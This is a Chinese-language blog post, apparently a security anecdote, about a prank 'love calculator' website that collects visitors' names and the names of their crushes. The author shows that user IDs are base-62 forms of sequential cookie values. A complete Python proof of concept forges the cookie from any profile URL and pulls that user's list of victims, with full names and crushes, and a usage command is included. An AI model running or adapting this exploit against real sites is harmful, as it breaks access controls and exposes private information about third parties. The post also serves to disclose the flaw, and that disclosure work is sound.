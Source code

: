 # 資安小故事 - 餅乾猜猜樂

事情是這樣的，我在別人的挨居的自介上面看到一個連結，就好奇的點了進去

<img style="height: 500px;" src="../../../img/lovemeter-1.png">

裡面看起來就是那種心裡測驗的網站，愛情計算器，幫你測你和喜歡的人配不配

聰明如我<del>資安小天才</del>，當然是隨便亂打個 abcd 就送出看看這是在耍什麼花樣

<img style="height: 500px;" src="../../../img/lovemeter-2.png">

果然是愚弄人的網站，如果你誠實的填上你的名字和你喜歡的人的名字，就被分享給你連結的人看光光啦

在你生氣的同時，這個網站就很好心的讓你註冊一下好發洩怨氣

那我當然也順手按了一下註冊（免錢的隨手按一下），這時候就可以把連結分享給別人囉

這個可以看中了我的圈套的受害者名單的頁面，我只要把 cookie 清掉，就會被帶到前面第一個愛情計算器（陷阱）頁面，代表他有用 cookie 去驗證你是誰

* 有對的 cookie 他會給我受害者名單
* 不對的 cookie 他會讓我掉進陷阱

那在看看他的 cookie 之前眼尖的我，就發現他的 url 有些地方像像的，而且後面的 userid 很短

* `https://cn.lovemeter.me/user/5S1X`
* `https://cn.lovemeter.me/user/5S1Y`
* `https://cn.lovemeter.me/user/5S1Z`

多註冊幾次會發現，他的 userid 怎麼感覺好像是每次 counter++

再多嘗試幾次，就會發現 userid 的字元只會是 `0-9a-zA-Z` 的字元組成

然後重點是他的 cookie 是個數字，而且完完全全是 counter++ 的樣子

* `user_quiz_1399337=1399337`
* `user_quiz_1399337=1399338`
* `user_quiz_1399337=1399339`

那這個 userid 跟這個 cookie 的 id 的對照是怎麼樣的呢

猜一猜就能發現他其實是把 `0-9a-zA-Z` 當成 `0-61` 的 62 進位（很合理吧）

```python
convert('5S1X') =  5 * (62 ** 3) +
                  54 * (62 ** 2) +
                   1 * (62 ** 1) +
                  59 * (62 ** 0) = 1399337
```

那我們只要把他的 userid 轉回數字，並新增個 cookie，就能成功看到別人的受害者名單囉

## Proof Of Concept ( POC )

```python tab="source"
#!/usr/bin/env python3
import re
import sys
import json
import string
from prettytable import PrettyTable
import requests

if len(sys.argv) < 2:
    print('usage: ./lovemeter.py (url)')
    exit(0)

value = string.digits + string.ascii_letters

def uid2num(uid):
    num = 0
    for ch in uid:
        v = value.index(ch)
        num = num * len(value) + v
    return num

def num2uid(num):
    uid = ''
    while num > 0:
        v = num % len(value)
        uid += value[v]
        num //= len(value)
    return uid[::-1]

url = sys.argv[1]
r = re.search('https:\/\/(\w+)\.lovemeter.me\/\w+\/(\w+)', url)
prefix = r.group(1)
uid = r.group(2)
num = uid2num(uid)

r = requests.get(f'https://{prefix}.lovemeter.me/other-user-stats/{uid}', headers = {
    'cookie': f'user_quiz_{num}={num}',
    'user-agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A5370a Safari/604.1'
})

data = json.loads(r.text)['data']
t = PrettyTable(['名字', '喜歡的人'])
for item in data:
    item = json.loads(item)
    t.add_row([item['userFullName'], item['crushFullName']])
print(t)
```

```bash tab="usage"
./lovemeter.py https://cn.lovemeter.me/user/1234
```
